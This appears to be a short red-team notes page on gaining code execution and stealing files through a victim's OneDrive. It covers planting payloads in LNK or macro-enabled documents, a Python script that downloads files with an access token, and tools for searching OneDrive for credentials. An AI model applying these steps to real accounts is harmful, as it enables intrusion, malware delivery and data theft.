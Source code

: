 ```yaml
---
title: OneDrive
---
```


> Under construction 🚧

OneDrive access to code execution on a computer:

- login to victim account, check last edited office documents
- `~/Desktop` is often synced with OneDrive, e.g. embed payload in LNK file
- otherwise replace documents with macro-enabled format and embed payload

Download files from OneDrive with Python ([source](https://twitter.com/OutflankNL/status/1623665284744679424/)).

~~~ python
# pip3 install --user o365
from O365 import MSOffice365Protocol, MSGraphProtocol, EnvTokenBackend, Account
import os

os.environ['MSGRAPHTOKEN'] = '{"access_token":"eyJ0..."}'

credentials = ('id', 'secret')
msgraph = Account(credentials, token_backend=EnvTokenBackend('MSGRAPHTOKEN'), protocol=MSGraphProtocol())

# list files in OneDrive
drive = msgraph.storage().get_default_drive()
list(drive.get_items())

# download file
drive.get_item_by_path('/doucment.docx').download('downloads')
~~~

Search for credentials in OneDrive with [TeamFiltration](https://github.com/Flangvik/TeamFiltration) or [GraphRunner](https://github.com/dafthack/GraphRunner/wiki/Pillage-Modules#invoke-searchsharepointandonedrive).

Untested tools:

- [OneDriveExplorer](https://github.com/Beercow/OneDriveExplorer), CLI and GUI to reconstruct OneDriver folder hierarchy from `$usercid.dat` and `$usercid.dat.previous`
- [Token Farm](https://github.com/rootsecdev/Azure-Red-Team/tree/master/Tokens), python scripts to access Outlook emails and OneDrive

